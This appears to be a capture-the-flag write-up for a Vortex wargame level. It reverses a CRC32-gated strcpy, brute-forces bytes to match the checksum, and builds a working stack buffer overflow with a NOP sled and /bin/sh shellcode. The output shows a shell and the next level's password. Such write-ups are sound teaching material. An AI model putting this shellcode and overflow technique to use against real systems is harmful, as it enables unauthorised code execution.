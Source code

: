 looking at the c file:
```c
int main(int argc, char **argv)
{
        char buf[58];
        u_int32_t hi;
        if((hi = crc32(0, argv[1], strlen(argv[1]))) == 0xe1ca95ee) {
                strcpy(buf, argv[1]);
        } else {
                printf("0x%08x\n", hi);
        }
}
```
http://www.woodmann.com/fravia/crctut1.htm

Dump of assembler code for function crc32:
```assembly
   0x0804847d <+0>:     push   ebp
   0x0804847e <+1>:     mov    ebp,esp
   0x08048480 <+3>:     sub    esp,0x10
   0x08048483 <+6>:     mov    eax,DWORD PTR [ebp+0xc]		
   0x08048486 <+9>:     mov    DWORD PTR [ebp-0x4],eax
   0x08048489 <+12>:    jmp    0x80484b2 <crc32+53>
   0x0804848b <+14>:    mov    eax,DWORD PTR [ebp-0x4]		#= bytestr
   0x0804848e <+17>:    lea    edx,[eax+0x1]			#= bytestr+1
   0x08048491 <+20>:    mov    DWORD PTR [ebp-0x4],edx		#var+=1
   0x08048494 <+23>:    movzx  eax,BYTE PTR [eax]		
   0x08048497 <+26>:    movzx  eax,al				#=bytestr[i]
   0x0804849a <+29>:    xor    eax,DWORD PTR [ebp+0x8]		#xor with ans
   0x0804849d <+32>:    movzx  eax,al
   0x080484a0 <+35>:    mov    eax,DWORD PTR [eax*4+0x8048600]	#eax = crc_table[eax]
   0x080484a7 <+42>:    mov    edx,DWORD PTR [ebp+0x8]		#edx = ans
   0x080484aa <+45>:    shr    edx,0x8
   0x080484ad <+48>:    xor    eax,edx				#xor ans with crc_table
   0x080484af <+50>:    mov    DWORD PTR [ebp+0x8],eax		#store ans
   0x080484b2 <+53>:    sub    DWORD PTR [ebp+0x10],0x1		#len--
   0x080484b6 <+57>:    cmp    DWORD PTR [ebp+0x10],0x0		#cmp len to 0
   0x080484ba <+61>:    jns    0x804848b <crc32+14>
   0x080484bc <+63>:    mov    eax,DWORD PTR [ebp+0x8]
   0x080484bf <+66>:    leave  
   0x080484c0 <+67>:    ret
```
the crc table:
```assembly
0x8048600 <crc32_table>:        0x00000000      0x77073096      0xee0e612c      0x990951ba
0x8048610 <crc32_table+16>:     0x076dc419      0x706af48f      0xe963a535      0x9e6495a3
0x8048620 <crc32_table+32>:     0x0edb8832      0x79dcb8a4      0xe0d5e91e      0x97d2d988
0x8048630 <crc32_table+48>:     0x09b64c2b      0x7eb17cbd      0xe7b82d07      0x90bf1d91
0x8048640 <crc32_table+64>:     0x1db71064      0x6ab020f2      0xf3b97148      0x84be41de
0x8048650 <crc32_table+80>:     0x1adad47d      0x6ddde4eb      0xf4d4b551      0x83d385c7
0x8048660 <crc32_table+96>:     0x136c9856      0x646ba8c0      0xfd62f97a      0x8a65c9ec
0x8048670 <crc32_table+112>:    0x14015c4f      0x63066cd9      0xfa0f3d63      0x8d080df5
0x8048680 <crc32_table+128>:    0x3b6e20c8      0x4c69105e      0xd56041e4      0xa2677172
0x8048690 <crc32_table+144>:    0x3c03e4d1      0x4b04d447      0xd20d85fd      0xa50ab56b
0x80486a0 <crc32_table+160>:    0x35b5a8fa      0x42b2986c      0xdbbbc9d6      0xacbcf940
0x80486b0 <crc32_table+176>:    0x32d86ce3      0x45df5c75      0xdcd60dcf      0xabd13d59
0x80486c0 <crc32_table+192>:    0x26d930ac      0x51de003a      0xc8d75180      0xbfd06116
0x80486d0 <crc32_table+208>:    0x21b4f4b5      0x56b3c423      0xcfba9599      0xb8bda50f
0x80486e0 <crc32_table+224>:    0x2802b89e      0x5f058808      0xc60cd9b2      0xb10be924
0x80486f0 <crc32_table+240>:    0x2f6f7c87      0x58684c11      0xc1611dab      0xb6662d3d
0x8048700 <crc32_table+256>:    0x76dc4190      0x01db7106      0x98d220bc      0xefd5102a
0x8048710 <crc32_table+272>:    0x71b18589      0x06b6b51f      0x9fbfe4a5      0xe8b8d433
0x8048720 <crc32_table+288>:    0x7807c9a2      0x0f00f934      0x9609a88e      0xe10e9818
0x8048730 <crc32_table+304>:    0x7f6a0dbb      0x086d3d2d      0x91646c97      0xe6635c01
0x8048740 <crc32_table+320>:    0x6b6b51f4      0x1c6c6162      0x856530d8      0xf262004e
0x8048750 <crc32_table+336>:    0x6c0695ed      0x1b01a57b      0x8208f4c1      0xf50fc457
0x8048760 <crc32_table+352>:    0x65b0d9c6      0x12b7e950      0x8bbeb8ea      0xfcb9887c
0x8048770 <crc32_table+368>:    0x62dd1ddf      0x15da2d49      0x8cd37cf3      0xfbd44c65
0x8048780 <crc32_table+384>:    0x4db26158      0x3ab551ce      0xa3bc0074      0xd4bb30e2
0x8048790 <crc32_table+400>:    0x4adfa541      0x3dd895d7      0xa4d1c46d      0xd3d6f4fb
0x80487a0 <crc32_table+416>:    0x4369e96a      0x346ed9fc      0xad678846      0xda60b8d0
0x80487b0 <crc32_table+432>:    0x44042d73      0x33031de5      0xaa0a4c5f      0xdd0d7cc9
0x80487c0 <crc32_table+448>:    0x5005713c      0x270241aa      0xbe0b1010      0xc90c2086
0x80487d0 <crc32_table+464>:    0x5768b525      0x206f85b3      0xb966d409      0xce61e49f
0x80487e0 <crc32_table+480>:    0x5edef90e      0x29d9c998      0xb0d09822      0xc7d7a8b4
0x80487f0 <crc32_table+496>:    0x59b33d17      0x2eb40d81      0xb7bd5c3b      0xc0ba6cad
0x8048800 <crc32_table+512>:    0xedb88320      0x9abfb3b6      0x03b6e20c      0x74b1d29a
0x8048810 <crc32_table+528>:    0xead54739      0x9dd277af      0x04db2615      0x73dc1683
0x8048820 <crc32_table+544>:    0xe3630b12      0x94643b84      0x0d6d6a3e      0x7a6a5aa8
0x8048830 <crc32_table+560>:    0xe40ecf0b      0x9309ff9d      0x0a00ae27      0x7d079eb1
0x8048840 <crc32_table+576>:    0xf00f9344      0x8708a3d2      0x1e01f268      0x6906c2fe
0x8048850 <crc32_table+592>:    0xf762575d      0x806567cb      0x196c3671      0x6e6b06e7
0x8048860 <crc32_table+608>:    0xfed41b76      0x89d32be0      0x10da7a5a      0x67dd4acc
0x8048870 <crc32_table+624>:    0xf9b9df6f      0x8ebeeff9      0x17b7be43      0x60b08ed5
0x8048880 <crc32_table+640>:    0xd6d6a3e8      0xa1d1937e      0x38d8c2c4      0x4fdff252
0x8048890 <crc32_table+656>:    0xd1bb67f1      0xa6bc5767      0x3fb506dd      0x48b2364b
0x80488a0 <crc32_table+672>:    0xd80d2bda      0xaf0a1b4c      0x36034af6      0x41047a60
0x80488b0 <crc32_table+688>:    0xdf60efc3      0xa867df55      0x316e8eef      0x4669be79
0x80488c0 <crc32_table+704>:    0xcb61b38c      0xbc66831a      0x256fd2a0      0x5268e236
0x80488d0 <crc32_table+720>:    0xcc0c7795      0xbb0b4703      0x220216b9      0x5505262f
0x80488e0 <crc32_table+736>:    0xc5ba3bbe      0xb2bd0b28      0x2bb45a92      0x5cb36a04
0x80488f0 <crc32_table+752>:    0xc2d7ffa7      0xb5d0cf31      0x2cd99e8b      0x5bdeae1d
0x8048900 <crc32_table+768>:    0x9b64c2b0      0xec63f226      0x756aa39c      0x026d930a
0x8048910 <crc32_table+784>:    0x9c0906a9      0xeb0e363f      0x72076785      0x05005713
0x8048920 <crc32_table+800>:    0x95bf4a82      0xe2b87a14      0x7bb12bae      0x0cb61b38
0x8048930 <crc32_table+816>:    0x92d28e9b      0xe5d5be0d      0x7cdcefb7      0x0bdbdf21
0x8048940 <crc32_table+832>:    0x86d3d2d4      0xf1d4e242      0x68ddb3f8      0x1fda836e
0x8048950 <crc32_table+848>:    0x81be16cd      0xf6b9265b      0x6fb077e1      0x18b74777
0x8048960 <crc32_table+864>:    0x88085ae6      0xff0f6a70      0x66063bca      0x11010b5c
0x8048970 <crc32_table+880>:    0x8f659eff      0xf862ae69      0x616bffd3      0x166ccf45
0x8048980 <crc32_table+896>:    0xa00ae278      0xd70dd2ee      0x4e048354      0x3903b3c2
0x8048990 <crc32_table+912>:    0xa7672661      0xd06016f7      0x4969474d      0x3e6e77db
0x80489a0 <crc32_table+928>:    0xaed16a4a      0xd9d65adc      0x40df0b66      0x37d83bf0
0x80489b0 <crc32_table+944>:    0xa9bcae53      0xdebb9ec5      0x47b2cf7f      0x30b5ffe9
0x80489c0 <crc32_table+960>:    0xbdbdf21c      0xcabac28a      0x53b39330      0x24b4a3a6
0x80489d0 <crc32_table+976>:    0xbad03605      0xcdd70693      0x54de5729      0x23d967bf
0x80489e0 <crc32_table+992>:    0xb3667a2e      0xc4614ab8      0x5d681b02      0x2a6f2b94
0x80489f0 <crc32_table+1008>:   0xb40bbe37      0xc30c8ea1      0x5a05df1b      0x2d02ef8d
```

now, after doing some research involving Galios Field and modulu over iriducible polynomial, we arrive at the conclution that appending 4 bytes  
ought to be enough to completely change the CRC to our willling, so using our modern computer we can cover 2^32 options pretty fast, hence we'll   write a bruteforce code ==> in C for the best possible speed...  

lets build our buffer overflow:  
return address - 0xffffd6b0  
payload - "\x90" * 50 + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc9\xb0\x0b\xcd\x80"  
buffer - anything, must be of certian length:  
	we know that buff is 58 bytes long and starts at $esp+0x12...  
	at $esp+0x12+74 we have a return address to overwrite --> we need 74 bytes of buffer, followed by the address...  
	so we get: "A"*74 + "\xb0\xd6\xff\xff"  
total:  
"A"*74 + "\xb0\xd6\xff\xff"+"\x90" * 50+"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc9\xb0\x0b\xcd\x80"+<4-bytes buffer>  

using the brute force code (vortex7.c) we get (max runtime is about 50 mins - avg is 25 mins):  

"A"*74 + "\xb0\xd6\xff\xff"+"\x90" * 50+"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc9\xb0\x0b\xcd\x80"+"\x2f\x0b\x41\xb9"  

we get:  
$ whoami  
vortex8  
$ cat /etc/vortex_pass/vortex8  
X70A_gcgl






